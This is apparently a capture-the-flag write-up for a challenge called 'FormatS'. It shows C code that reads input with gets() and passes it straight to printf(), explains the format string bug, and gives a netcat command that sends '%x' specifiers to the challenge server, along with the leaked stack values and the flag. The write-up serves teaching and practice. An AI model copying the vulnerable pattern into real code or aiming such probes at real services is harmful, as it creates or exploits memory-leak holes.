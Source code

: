 # FormatS
We have this code
```
	char *input;
	char *flag = "REDACTED!";

	gets(input);
	printf(input);

```
printf outputs user input after 1 argument.This is a format string vulnerability.We can get the addresses of the underlying stacks using %x.And read strings at these addresses using %num_string$s
```
slonser@DESKTOP-0USDONC:/mnt/c/Users/Seva/Desktop/HACKERDOM/PWN$ python -c "print('%x.'*20)"| nc cyberyoddha.baycyber.net 10005
200000.ffffffff.8049189.1.ffa8d8b4.ffa8d8bc.804a008.ffa8d820.0.0.f7d07ee5.f7ed0000.f7ed0000.0.f7d07ee5.1.ffa8d8b4.ffa8d8bc.ffa8d844.f7ed0000.0
```
Run [script](FormatS.py) and get flag.
### CYCTF{3xpl0!t_th3_f0rm@t_str!ng}
